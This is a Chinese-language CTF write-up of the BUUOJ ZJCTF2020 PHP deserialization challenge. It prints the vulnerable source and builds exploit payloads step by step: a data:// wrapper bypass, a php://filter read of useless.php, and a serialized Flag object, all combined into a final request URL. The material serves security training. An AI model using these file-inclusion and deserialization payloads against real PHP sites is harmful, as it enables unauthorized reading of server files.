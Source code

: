 ### buuoj_[ZICTF2020]nizhaunsiwei(反序列化)

进入题目。可以看到直接给了源码

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

可以看到第五行text处比较是强比较，但是这个isset读取之后是进行url编码的字符串，此时可以采用data伪协议

```
text=text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=	#后面是welcome to the zjctf的base64编码
```

然后使用php伪协议读取useless.php文件

```
file=php://filter/read=convert.base64-encode/resource=useless.php
```

![](https://pic.imgdb.cn/item/610e935b5132923bf8eb2648.jpg)

将下面的数据进行base64解码，又获得一串代码

```
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

看这个的意思，是给file赋值为flag.php，然后进行序列化，所以代码修改为这样

```
<?php  

class Flag{  //flag.php  
    public $file="flag.php";  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
$s=serialize(new flag());
echo $s;
?>  
```

运行获得字符串

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}  
```

所以接下来构造playload

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}  
```

然后在注释找到flag



